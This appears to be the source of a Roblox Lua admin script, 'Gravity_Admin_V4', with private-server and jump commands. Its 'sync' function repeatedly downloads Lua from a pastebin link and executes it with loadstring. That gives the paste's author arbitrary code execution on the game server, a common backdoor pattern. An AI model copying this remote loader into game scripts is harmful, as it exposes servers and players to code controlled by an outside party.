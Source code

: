 script.Name='Gravity_Admin_V4'
 
function Check_Pri(plr)
        if Gravity_V4._PrivateServer._Enabled then
                Kick(plr)
        end
end
 
function ASPX_Client()
        if Gravity_V4._Sync._Enabled and Syncing==false then
                Syncing=true
                local run,error=ypcall(function()
                    local Link = 'http://pastebin.com/raw.php?i=XQjh7zFt'
                    local SHttp = game:GetService("HttpService")
                        loadstring( SHttp:GetAsync(Link,true) ) ()
                        wait(.05)
                        Syncing=false
                end)
        if not run then print(error) end
end
end
 
game:GetService('RunService').Heartbeat:connect(function()
if Gravity_V4._Sync._Enabled and Syncing==false then
ASPX_Client()
end
end)
 
Gravity_Cmd=function(Rank,Desc,Command,Name,Func)
        table.insert(Gravity_V4['_Commands'],{Rank=Rank,Desc=Desc,Command=Command,Name=Name,Func=Func})
end
 
Gravity_Cmd(3,'Pri'..Gravity_V4._Prefix,'Pri','Pri',function(Speaker,Msg)
        if Msg=='on' then
                Gravity_V4._PrivateServer._Enabled=true
                Hint(game.Players:GetPlayers(),':/ Gravity Admin \\: Private_Server : Online')
                Output(5,Speaker,'Private_Server : Online','White',function() end)
        elseif Msg=='off' then
                Gravity_V4._PrivateServer._Enabled=false
                Hint(game.Players:GetPlayers(),':/ Gravity Admin \\: Private_Server : Offline')
                Output(5,Speaker,'Private_Server : Offline','White',function() end)
        elseif Msg=='check' then
                if Gravity_V4._PrivateServer._Enabled then
                        Output(5,Speaker,'Private_Server : Online','White',function() end)
                else
                        Output(5,Speaker,'Private_Server : Offline','White',function() end)
                end
        else
                Output(5,Speaker,'Use Pri;[on,off] To Toggle Private Server!','Deep orange',function() end)
        end
end)
 
Gravity_Cmd(2,'Jump'..Gravity_V4._Prefix..'Player','Jump','Jump',function(Speaker,Msg)
        for _,v in pairs(FindReturnPlayer(Speaker,Msg)) do
        if v then
                v.Character.Humanoid.Jump=true
        end
end
end)
 